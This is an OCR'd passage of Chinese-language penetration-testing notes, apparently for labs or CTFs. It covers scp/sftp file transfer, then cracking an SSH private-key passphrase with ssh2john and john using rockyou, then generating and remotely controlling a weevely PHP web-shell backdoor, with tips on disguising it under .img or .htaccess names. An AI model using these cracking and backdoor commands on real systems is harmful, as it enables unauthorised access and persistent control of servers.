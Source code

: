         - 相关技巧
            - 复制目录至本地
                
                ```bash
                scp -r -P[port] [local_file] [user_name]@[ip]:[remote_file]
                ```
                
    - 在服务端上传下载文件
        - 链接服务端文件路径
            
            ```bash
            sftp [user_name]@[ip]:[remote_dir]
            ```
            
        - 上传文件到该路径
            
            ```bash
            put [file_name] [remote_dir]
            ```
            
        - 下载文件到本地路径
            
            ```bash
            get [remote_file] [local_dir]
            ```
            
    - 爆破RSA私钥文件的访问密码
        - 将私钥文件转化为john可识别内容
            
            ```bash
            ssh2john id_rsa>[file_name]
            ```
            
        - john爆破转化后私钥文件，获取访问私钥密码
            
            ```bash
            zcat /usr/share/wordlists/rockyou.txt.gz | john --pipe --rules [file_name]
            ```
            
- **漏洞**
    - 中国菜刀，Web Shell漏洞
        - 设定本地登录密码，生成后门文件，存储本地路径
            
            <aside>
            💡 后门文件以`.php`结尾
            
            </aside>
            
            <aside>
            💡 服务器开启Htaccess后，后门文件可以 `.img` `.htaccess`结尾
            
            </aside>
            
            ```bash
            weevely generate [password] [local_path]
            ```
            
        - 远程控制 Web Shell
            
            ```bash
            weevely [http://ip:port/backdoor_name.php] [password]
            ```
            